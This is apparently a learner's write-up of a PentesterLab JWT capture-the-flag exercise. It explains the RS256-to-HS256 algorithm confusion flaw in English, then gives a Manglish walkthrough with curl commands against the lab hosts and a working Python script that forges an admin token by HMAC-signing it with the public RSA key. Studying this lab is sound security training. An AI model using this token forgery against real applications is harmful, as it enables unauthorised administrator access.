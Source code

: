 ## Introduction
-->This exercise covers the exploitation of an issue with some implementations of JWT
-->This course details the exploitation of a weakness in JSON Web Token (JWT). In this application, JWT is used for authentication. Upon successful login, the user is issued a JWT in a cookie.

## The vulnerability
-->This issue was originally discussed in the following blog post: https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/.
-->In this article, Tim McLean discussed multiple issues in the signature mechanism used by JWT. In this exercise, we are going to focus on the first issue.
-->Multiple signature methods can be used to ensure the integrity of JWT:
-   RSA based
-   Elliptic curves
-   HMAC
-   None
-->Here, the application uses RSA. You can even download the public key if you want to be able to verify the token. Since you don't have the private key, you cannot generate a valid token (in theory). In a real scenario, you may get to get the public key from a JavaScript script or from a mobile application.
-->With RSA, too:
-   Sign a token, you need the private key.
-   Verify a token, you can use the public key corresponding to the private key used for the signature.
-->With HMAC, too:
-   Sign a token, you need the secret.
-   Verify a token, you need the same secret.
-->In practice, you can change the algorithm used by the application (RSA - RS256) to tell it to use HMAC (HS256).
-->The application will call the method verify when you send the cookie. Since the code is written to use RSA, it will call verify(public_key, data). But since the algorithm is set to HMAC, it will end up calling HMAC(public_key,data).
-->The application will verify the signature with the public key, but since you are forcing the application to use HMAC, it will actually verify the signature with HMAC(public_key, data).
-->As an attacker, you have everything you need to generate a valid signature since the public key is actually public.

## Exploitation
-->To exploit this vulnerability, you just need to decode the JWT and change the algorithm used for the signature.
-->Change the username to "admin". Then you can compute the new signature and submit your new JWT.
-->To create the correct signature, you need to look at the details of the JWT format to understand what data is signed and how it's signed.
-->The JWT format signs the base64-URL encoded without padding (https://tools.ietf.org/html/rfc7515#appendix-C) header and the base64-URL encoded without padding data, after concatenating them with a single dot ..
-->In this challenge, you have access to the public key (in the website when you're not logged in).
-->If you want to try a similar (harder) challenge without the public key provided, you can look at the [JWT XIII](https://pentesterlab.com/exercises/jwt_xiii/course) challenge.

## Conclusion
-->This exercise showed you how you can tamper with a JWT to gain administrator access in an application.
-->It showed you that having a signed value is only as strong as the weakest algorithm used, if an attacker can pick what algorithm is used.

# Video Explanation
## Video -1 jwt II exploitation(python3)
-->so lab open chyuka enit oru account undakuka.enit bur proxy il poi nokiyal kanam namuk puthiya auth session kiteetund.ath jwt token aan :
```http
Set-Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJsb2dpbiI6Impvc3UifQ.FfL9mGVuo5gt0ay2gXAYQnq_oLNW3vEm8dSRaz9QLBg2jyf5ej_QvZaiVLoflW_v6KvSquFTkACyJ-8HPpKHISnQ51HyE6S7Xy-0jKpQkguWa4zdsDBYwNh9u2M7bErpyACVGv6DrqI6X5u5Sg8rqZxbBFQeLg8WH_7tVom1HUMzRtBtM_MiItm1UdR4iXkHovo8Eb9XjYzie4-C7uVR9iZVGtZy3vEWUpf08t-9dTkHZbY3mFD7NXul9GCdVmXS6nn0KOQLkrgF27j4s0MhsWs8tBXpJug2_S-NvNz9I27aa4GKsWNdR5vLcinOEQAc0qado-7FInuT_6NzTE2xwA
```
->ivide aadyathe rand dot kazhinj sredhichal kanam valiya oru signature aan.that means ath most probably RSA algorithm aan. karnaam HMAC vechan sign chythathengil ithra valya string valrila
-->ath urapp veruthan burp decoder il itt decode chytha mathi 
-->ini logout chythal home page il thane namuk public key ctf tharunund : 
->http://ptl-ea1a9243-e9848f17.libcurl.so/public.pem
-->public key site ullath kond angane thane copy paste chyth puthiya oru .pem file il aakaruth
-->adyam kali open chyuka enit ->`curl http://ptl-683895ed-00491625.libcurl.so/public.pem`    enn kodukuka
-->apol namuk terminalil ee public key kitum.so ini same command thane adikuka enit > symbol vech oru file ilek aakuka iek
->`curl http://ptl-683895ed-00491625.libcurl.so/public.pem > key.pem`
-->ipol key.pem enna file il public key save aayi.ith ingane thane chyanam.njan copy paste chyth python code vech chythapol enik vere jwt token aan kitiyath.
-->ivide sir prathyekam parayunund ignane thane publick key file ilek aakumbol chyanamen ok
-->ini namuk python code chyam.key.pem file undakiya directory il thane python code um chyuka ok
```python
import hmac
import base64
import hashlib

f=open("key.pem")
key=f.read()

str="eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6ImFkbWluIn0%3d"

signature= base64.urlsafe_b64encode(hmac.new(bytes(key, encoding='utf8'),str.encode('utf-8'),hashlib.sha256).digest()).decode('utf-8').rstrip("=")

print (str+"."+signature)
```
-->ini ee python code run chyanam
->`python3 jwtII.py`
-->ipol namuk puthiya jwt token kitum.ath namal namude kayil ulla token umayi replace chythal namuk admin aayi maran patum.
-->ivide str= enna variable il aan namude jwt token ile header um payloadum ullath.NOTE: header in shesham dot und but payload il dot idaruth ok
-->jwt token nokam :
```http
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJsb2dpbiI6InNoYSJ9.oKakJ2MOP30uqaXGBekhha8YBgRTvAk3NOn7548uj6OVrHqB05B1vGFi-LDLdGL9RBpGHXRz5OYNQc3HnLPhHgkHrRmlU7O9zrMq0nGOZbfwX_1hHEcVAQ60zZhUXpparadYyg9D8nHqbTqhezkDvPu1hyOMAhKPqMRXpMyvJwHTuU1PCDosImnvTfnU7j2RSqE_ZABtVBfM2Wy6pojjOHoFUNcarNfIygThcmhoDC-svOq5V-1FaWPeTqEx0DC3-ezEh88i0nnpPBMXTgBkSpT4Drqy6jRkpoNWghefvGJ8Lk7T9XG7R7gVFy2vpENLuXfIfzudFpGgb6JZlJKtNA
```
```
-->ee token engane aan python code il idunath enn nokam.ie, header edukuka enit :
->`echo eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9 | base64`  enn kodukuka apol header section kanikum enit athile RS256 ennath mati HS256 akkuka enit ath namal base64 il encode chyanam ie,->`echo {"typ":"JWT","alg":"HS256"} | base64`  apol namuk oru base64 encoded format il oru code kitum athan namude python script ile str varilable ile aadyathe string
-->ini payload il admin enn kodukanam so ->`echo eyJsb2dpbiI6InNoYSJ9 | base64 -d`  enn kodukuka apol namuk `{"login":"josu"}`  enn kanan patum.so josu mati admin aakanam enit base64 il encode chyanam ie->`echo {"login":"admin"} | base64`  ipol namuk oru base64 encoded code kitum athan python code ile str varialb le ile randamathe string ok
```
-->ee reethiyil chythit enik kitiyila.so njan burp il thane jwt token nte header um payloadum mati(repeater il vechit) ennit ath njan kali yil ulla jwtII.py file il(ie,namade python file) ile str= variable il replace chythapo enik admin aayi maran pati.so lab complete aayi
-->==lab completed==
## My Way
-->njan ith ente reethiyil chyan noki ie, portswigger ile last lab ekadehsam ingane aan
-->atahyath site il jwk key undakum.so ath namal eduthit new rsa key il iduka enit namuk athil ninum public key(.pem) kitum.so aa public key namal burp decoder il itt base64 encode chyum.enit namal new symmetric key koduth generate adichit "k":"ivide aa encode chytha bas64 kodukuka" enit namuk sign chyam
-->ivide ee lab il namuk already pem format il thane namuk public key kitunund.so namal nere decoder il itt base64 ecode chyuka enit new symmetric key koduth generate adikuka apol oru public key kitum.athil "k"  paramter il ulla value aan key.so aa key remove chythit namal base64 encode chytha key paste chyuka (inside double qoute)
-->Ini burp repeater il poi json web token eduthit name, algorithm oke mati sign koduthit send adikumbol enik admin aayi maran patunila.kore noki pakshe patunila.so namak sir kanikuna pole python vech thane chyunthan nallath ok
